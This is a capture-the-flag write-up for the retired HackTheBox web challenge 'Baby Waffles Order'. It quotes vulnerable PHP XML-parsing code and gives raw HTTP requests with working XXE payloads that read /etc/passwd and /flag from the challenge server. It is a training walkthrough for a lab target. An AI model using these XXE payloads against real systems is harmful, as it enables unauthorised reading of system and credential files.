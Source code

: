 # Solution for HackTheBox - Challenges - Web - Retired - Baby Waffles Order

From the code of the web application, we can see 
```text
else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }

```

Cool so it accepts XML data. 

Now we try to send XML Data in the form

First, let's change the application to read application/json then we can try XML

```text
POST /api/order HTTP/1.1
Host: 206.189.125.37:31584
Content-Length: 40
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.125.37:31584
Referer: http://206.189.125.37:31584/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close

{"table_num":"1234","food":"Ice Scream"}
```

Cool. Now we send it in XML

```text
POST /api/order HTTP/1.1
Host: 206.189.125.37:31584
Content-Length: 124
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.125.37:31584
Referer: http://206.189.125.37:31584/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/xml
Connection: close

<?xml version="1.0" encoding="ISO-8859-1"?><order>
    <table_num>
1234</table_num>
    <food>Ice Scream</food>
</order>
```

Now we send a POC to check if it is vulnerable to XXE
```text
POST /api/order HTTP/1.1
Host: 206.189.125.37:31584
Content-Length: 159
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.125.37:31584
Referer: http://206.189.125.37:31584/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/xml
Connection: close

<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<order>
    <table_num>1234</table_num>
    <food>
&xxe;</food>
</order>
```

It worked! After some digging around and some nudges, I was able to find the flag was in a directory called /flag.

```
POST /api/order HTTP/1.1
Host: 206.189.125.37:31584
Content-Length: 153
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.125.37:31584
Referer: http://206.189.125.37:31584/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/xml
Connection: close

<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
<order>
    <table_num>1234</table_num>
    <food>
&xxe;</food>
</order>
```

